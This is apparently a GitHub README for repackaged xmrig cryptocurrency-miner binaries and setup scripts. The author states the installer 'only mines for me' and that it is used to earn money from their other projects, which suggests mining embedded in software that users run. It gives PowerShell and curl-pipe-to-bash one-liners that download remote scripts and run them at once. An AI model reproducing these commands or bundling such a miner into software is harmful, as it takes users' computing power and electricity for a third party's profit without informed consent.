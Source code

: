 This repository contains binaries of xmrig miner (see https://github.com/xmrig/xmrig) built to work on more platforms and bundled with helper Windows/Linux setup scripts that automatically configure them to work with https://moneroocean.stream mining pool.

## Why and what
Why: I use this to get a bit of money from my projects (you're able to disable this at any time if one of my projects uses this)
What: This installer of xmrig is modified so that it only mines for me
## INSTALL

### Windows
```
powershell -Command "$wc = New-Object System.Net.WebClient; $tempfile = [System.IO.Path]::GetTempFileName(); $tempfile += '.bat'; $wc.DownloadFile('https://raw.githubusercontent.com/Leo-Aqua/xmrig_setup/master/setup_moneroocean_miner.bat', $tempfile); & $tempfile; Remove-Item -Force $tempfile"
```

### Linux
```
curl -s -L https://raw.githubusercontent.com/Leo-Aqua/xmrig_setup/master/setup_moneroocean_miner.sh | bash -s
```
---
## UNINSTALL

### Windows
```
powershell -Command "$wc = New-Object System.Net.WebClient; $tempfile = [System.IO.Path]::GetTempFileName(); $tempfile += '.bat'; $wc.DownloadFile('https://raw.githubusercontent.com/Leo-Aqua/xmrig_setup/master/uninstall_moneroocean_miner.bat', $tempfile); & $tempfile; Remove-Item -Force $tempfile"
```

### Linux
```
curl -s -L https://raw.githubusercontent.com/Leo-Aqua/xmrig_setup/master/uninstall_moneroocean_miner.sh | bash -s
```
